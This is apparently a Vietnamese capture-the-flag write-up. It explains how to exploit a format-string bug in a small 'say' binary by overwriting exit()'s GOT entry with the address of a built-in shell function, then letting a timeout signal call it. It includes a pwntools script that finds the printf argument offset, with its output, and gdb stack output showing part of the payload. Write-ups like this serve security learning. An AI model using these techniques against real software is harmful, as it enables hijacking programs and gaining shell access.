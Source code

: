 Mục tiêu của bài này chính là call tới hàm saye để lấy shell. Ta thấy có lỗi fmt, cơ mà có sẵn hàm để lấy shell rồi, nên mình nghĩ ngay đến việc overwrite GOT của hàm nào đó thành dia chi hàm saye.

Ta thấy là sau khi thiết lập bộ đệm với setbuf thì thiết lập thêm hẹn giờ, sao cho sau 5s thì sẽ gửi tín hiệu **SIGALRM**, khi mà nhận được tín hiệu này sẽ gọi **handler** và end program.

Thì mục tiêu là overwrite GOT nên là mình cần đi tìm hàm để ovw, hàm này phải được thực thi sau **printf**, sau 1 đêm ngáo ngơ suy nghĩ thì mình chỉ thấy có mỗi thằng **handler** là có thể được gọi sau khi printf, cơ mà chỉ có thể gọi tới handler khi mà timeup, nên là làm sao để timeup. 

Mình thấy là nếu mà 5s rồi vẫn chưa nhập xong thì timeup, xong mình quay lại xem cơ chế của lỗi fmt cho việc write vào địa chỉ cụ thể. 

Thì cơ chế của nó là, in ra màn hình 15 kí tự thì sẽ ghi giá trị hex(15) = 0xF vào vị trí ở tham số được chỉ định.

Nên là mình sẽ overwrite GOT của **exit()** trong hàm handler sau đấy thì sẽ tiếp tục in ra màn hình để quá 5s và gọi được handler với exit đã được ovw.


Thì đầu tiên mình sẽ tìm xem là giá trị mình nhập vào sẽ là tham số thứ mấy của printf.

```python
from pwn import *

for i in range(20):
    r = process("./say")
    r.send(f"%{i+1}$p")
    log.info(f"{i} : \n")
    log.info( r.recv())
    r.interactive()

```

```shell
[*] Got EOF while sending in interactive
[+] Starting local process './say': pid 4456
[*] 11 :
[*] Say what now? Tell me!!!
    > 0x7024323125
[*] Switching to interactive mode
[*] Process './say' stopped with exit code 0 (pid 4456)
[*] Got EOF while reading in interactive

```

thì mình tìm được là ở tham số thứ 11 của printf. 

Cơ mà lúc exploit, attach gdb vào thì mình thấy ở tham số thứ 12 sẽ là null byte, tiếp theo thứ 13 mới chứa chuỗi payload của mình. 

```shell
────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────
 ► 0x40129c    call   0x4012ec                      <0x4012ec>

   0x4012a1    pop    rsi
   0x4012a2    pop    rdi
   0x4012a3    mov    eax, 0
   0x4012a8    mov    rdx, qword ptr [rbp - 8]
   0x4012ac    sub    rdx, qword ptr fs:[0x28]
   0x4012b5    je     0x4012bc                      <0x4012bc>

   0x4012b7    call   __stack_chk_fail@plt                      <__stack_chk_fail@plt>

   0x4012bc    leave
   0x4012bd    ret

   0x4012be    endbr64
─────────────────────────────────[ STACK ]──────────────────────────────────
00:0000│ rsp         0x7ffe754d7290 —▸ 0x7ffe754d72a0 ◂— 0x3125703839373425 ('%4798p%1')
```